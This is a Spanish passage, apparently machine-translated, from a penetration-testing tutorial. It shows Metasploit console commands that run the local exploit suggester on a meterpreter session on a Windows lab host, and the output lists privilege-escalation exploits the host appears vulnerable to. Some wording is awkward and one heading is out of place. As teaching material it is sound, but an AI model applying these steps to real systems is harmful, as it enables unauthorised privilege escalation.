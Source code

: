 
Si la sesión de meterpreter muere con demasiada frecuencia, podemos considerar codificarla para evitar errores durante el tiempo de ejecución. Podemos elegir cualquier codificador viable, y finalmente mejorará nuestras posibilidades de éxito independientemente.

---

# **Exploit local suggester**

Como consejo, hay un módulo llamado`Local Exploit Suggester`. Usaremos este módulo para este ejemplo, ya que la carcasa de meterpreter aterrizó en el`IIS APPPOOL\Web`Usuario, que naturalmente no tiene muchos permisos. Además, ejecutando el`sysinfo`El comando nos muestra que el sistema es de arquitectura de bit x86, lo que nos da aún más razones para confiar en el exploit local suggester.

### **MSF - Búsqueda de exploit local Sugester**

Introducción a MSFVENOM

```
msf6 > search local exploit suggester

<...SNIP...>
   2375  post/multi/manage/screenshare                                                              normal     No     Multi Manage the screen of the target meterpreter session
   2376  post/multi/recon/local_exploit_suggester                                                   normal     No     Multi Recon Local Exploit Suggester
   2377  post/osx/gather/apfs_encrypted_volume_passwd                              2018-03-21       normal     Yes    Mac OS X APFS Encrypted Volume Password Disclosure

<SNIP>

msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set session 2

session => 2

msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 31 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
```